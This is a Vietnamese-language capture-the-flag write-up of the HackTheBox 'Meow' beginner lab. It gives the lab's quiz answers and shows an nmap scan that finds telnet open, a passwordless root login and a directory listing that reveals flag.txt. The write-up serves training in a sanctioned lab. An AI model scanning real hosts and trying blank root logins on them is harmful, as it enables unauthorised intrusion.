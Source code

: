 ```yaml
---
title: HackTheBox | StartingPoint | Meow WriteUp
date: 2023-01-16 
categories: [HackTheBox, StartingPoint]
---
```



# [StartingPoint] Meow WriteUp

# 1. Trả lời các câu hỏi :

**Câu 01: What does the acronym VM stand for?**

→ Virtual Machine

**Câu 02: What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.**

→ terminal

**Câu 03: What service do we use to form our VPN connection into HTB labs?**

→ openvpn

**Câu 04: What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?**

→ tun

**Câu 05: What tool do we use to test our connection to the target with an ICMP echo request?**

→ ping 

**Câu 06: What is the name of the most common tool for finding open ports on a target?**

→ nmap

**Câu 07: What service do we identify on port 23/tcp during our scans?**

→ telnet

**Câu 08: What username is able to log into the target over telnet with a blank password?**

→ root

 

# 2. Thu thập Flags từ máy ảo :

## 2.1. Tổng quan về máy ảo :

### Kết nối đến máy ảo (meow) :

Kết nối với openvpn của starting point, sử dụng câu lệnh :

```bash
┌──(kali㉿kali)-[~/Desktop/hackthebox]
└─$ sudo openvpn --config /home/kali/Desktop/hackthebox/starting_point_Darko2212.ovpn
```

### Kiểm tra kết nối :

Ip address của máy ảo (meow) : 10.129.181.70

Kiểm tra kết nối → bằng lệnh ping.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ping 10.129.181.70    
PING 10.129.181.70 (10.129.181.70) 56(84) bytes of data.
64 bytes from 10.129.181.70: icmp_seq=1 ttl=63 time=207 ms
64 bytes from 10.129.181.70: icmp_seq=2 ttl=63 time=206 ms
64 bytes from 10.129.181.70: icmp_seq=3 ttl=63 time=207 ms
^C
--- 10.129.181.70 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2001ms
rtt min/avg/max/mdev = 206.009/206.781/207.441/0.590 ms
```

### **Các yêu cầu :**

- Thu thập thông tin.
- Khai thác lỗ hổng và leo thang đặc quyền.
- Lấy được nội dung của flags.txt

## 3. Thu thập thông tin :

### sử dụng nmap (tìm các cổng đang mở trên máy ảo) :

→ phát hiện cổng 23 (dịch vụ telnet).

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV -Pn 10.129.181.70
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-17 00:13 EST
Nmap scan report for 10.129.181.70
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.66 seconds
```

## 4. Khai thác lỗ hổng :

Thử truy cập dịch vụ telnet bằng câu lệnh :

```bash
telnet 10.129.181.70
```

Chổ này đợi một chút cho nó tải lên, kết nối thành công sẽ hiển thị như bên dưới : 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ telnet 10.129.181.70
Trying 10.129.181.70...
Connected to 10.129.181.70.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█

Meow login:
```

Chỗ này có thể dựa vào dữ liệu trong những câu hỏi, như câu hỏi thứ 09 có đề cập đến vấn đề về tài khoản không có mật khẩu, mình có thể thử những mật khẩu mặc định như “admin”, “administrator”, … nhưng theo gợi ý cho câu hỏi thì câu trả lời là “root” nên lấy thử luôn và kết quả là kết nối thành công.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ telnet 10.129.181.70
Trying 10.129.181.70...
Connected to 10.129.181.70.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█

Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 17 Jan 2023 05:26:10 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.181.70
  IPv6 address for eth0: dead:beef::250:56ff:fe96:94d5

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Jan 17 05:15:52 UTC 2023 on pts/0
root@Meow:~#
```

## 5. Leo thang đặc quyền :

không cần thiết do sau khi đăng nhập vào máy ảo bằng telnet thì mình đã là root luôn rồi.

## 6. Thu thập flags :

Chỉ cần dùng câu lệnh “ls -alh” 

→ tìm được flags.txt

→ sử dụng “cat flag.txt” để đọc nội dung của flag.

 

```bash
root@Meow:~# ls -alh 
total 36K
drwx------  5 root root 4.0K Jun 18  2021 .
drwxr-xr-x 20 root root 4.0K Jul  7  2021 ..
lrwxrwxrwx  1 root root    9 Jun  4  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Oct  6  2020 .bashrc
drwx------  2 root root 4.0K Apr 21  2021 .cache
-rw-r--r--  1 root root   33 Jun 17  2021 flag.txt
drwxr-xr-x  3 root root 4.0K Apr 21  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   75 Mar 26  2021 .selected_editor
drwxr-xr-x  3 root root 4.0K Apr 21  2021 snap
root@Meow:~#
```

## 7. Tài liệu tham khảo :

[https://cheatography.com/davechild/cheat-sheets/linux-command-line/](https://cheatography.com/davechild/cheat-sheets/linux-command-line/)

[https://www.geeksforgeeks.org/nmap-command-in-linux-with-examples/](https://www.geeksforgeeks.org/nmap-command-in-linux-with-examples/)